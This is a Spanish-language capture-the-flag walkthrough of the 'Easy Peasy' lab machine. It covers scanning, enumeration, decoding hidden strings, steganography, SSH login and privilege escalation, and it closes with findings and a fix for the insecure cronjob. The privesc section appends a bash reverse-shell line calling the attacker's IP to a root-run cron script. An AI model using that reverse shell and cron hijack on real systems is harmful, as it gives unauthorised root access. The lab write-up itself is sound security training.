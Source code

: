 # Easy Peasy
El nombre cumple lo que promete
## Network scan

```nmap
80/tcp    open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.16.1
|_http-title: Welcome to nginx!
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Apache2 Debian Default Page: It works
```

## Enumeration 
### HTTP
El primer gobuster que usamos nos muestra un directorio llamado hidden, veamos si escaneando recursivamente encontramos algo
```
gobuster -u http://10.10.172.4/hidden -w /usr/share/dirb/wordlists/big.txt -t 100
    /whatever
```

El header de esta página es dead end, miremos el source a ver si hay algo que nos aporte alguna pista 

```html
<p hidden>ZmxhZ3tmMXJzN19mbDRnfQ==</p>
```

Lo decodificamos y tenemos la primera flag
```flag
flag{f1rs7_fl4g}
```

### HTTP Apache

En robots.txt tenemos una entrada un tanto extraña:
```robots.txt
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```
Usando este user-agent podemos acceder a la pagina donde veremos la flag numero 3 , aunque realmente no hace falta, lo que me lleva a preguntarme para que esta, asi que empece a probar tools online para decodificarm finalmente es el MD5 de la flag
```flag
flag{1m_s3c0nd_fl4g}
```

En la página podemos ver la flag 3 
```flag
flag{9fdafbd64c47471a8f54cd3fc64cd312} 
```
Mirando en el fuente encontramos varias cosas que me llaman la atención
```html
<!--      <div class="table_of_contents floating_element">
        <div class="section_header section_header_grey">
          TABLE OF CONTENTS
        </div>
        <div class="table_of_contents_item floating_element">
          <a href="#about">About</a>
        </div>
        <div class="table_of_contents_item floating_element">
          <a href="#flag">hi</a>
        </div>
        <div class="table_of_contents_item floating_element">
          <a href="#scope">Scope</a>
        </div>
        <div class="table_of_contents_item floating_element">sando la 
          <a href="#files">Config files</a>
        </div>
      </div>
-->
```
```html
<p hidden>its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu</p>
```
Esta encoded en base62 y el resultado es /n0th1ng3ls3m4tt3r

Accedamos a ese directorio y veremos que en el fuente hay un string encoded pero no sabemos el formato, una pista nos dice que es GOST 
```html
<p>940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81</p>
```

Usando la web de md5hashing para hacer hash lookup obtenemos que la password hasheada es mypasswordforthatjob

Podemos usar esta pass para extraer unas creds de la imagen usando steghide
```
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```
Veamos en que decodifica el binario

```
iconvertedmypasswordtobinary
```
Finalmente las creds son 
```
boring:iconvertedmypasswordtobinary
```

Veamos si valen para el SSH

```
me@me:~$ ssh boring@10.10.176.97 -p 6498
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
```

Aplicamos ROT13 a el texto y nos sale una flag
```
flag{n0wits33msn0rm4l}
```

## Privesc

Viendo el crontab tenemos la siguiente linea
```
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
Veamos si podemos editar de algun modo ese archivo
```
-rwxr-xr-x  1 boring boring   33 Jun 14 22:43 .mysecretcronjob.sh
```
Parece que si, veamos si puedo invocar una reverse shell hacia mi máquina 

```
echo 'bash -i >& /dev/tcp/10.9.95.54/4444 0>&1' >> /var/www/.mysecretcronjob.sh
```

Y obtenemos una shell en nuestra máquina
```
root@kral4-PC:~# id
uid=0(root) gid=0(root) groups=0(root)
root@kral4-PC:~# cat .root.txt
cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
```

# Analisís de la intrusión
### Credenciales en lugares poco seguras
Esconder credenciales en lugares poco seguros aunque se haya aplicado esteganografia es una mala practica
### Criptografía poco segura
Codificar la contraseña en binario no es un metodo seguro para proteger dicha contraseña
### Insecure cronjob
Ejecutar de manera privilegiada un script sh al que un usuario común tiene privilegios de edición es mala idea

# Soluciones
### Insecure cronjob
En caso de que dicho cronjob sea necesario, el administrador deberia tomar medidad respecto a la accesibilidad de ese cronjob , ya sea o bien otorgando al dueño de ese cronjob privilegios justos y necesarios para la ejecución del comando necesario, o bien mediante la eliminación de permisos de edición sobre ese archivo a los usuarios que no sean root
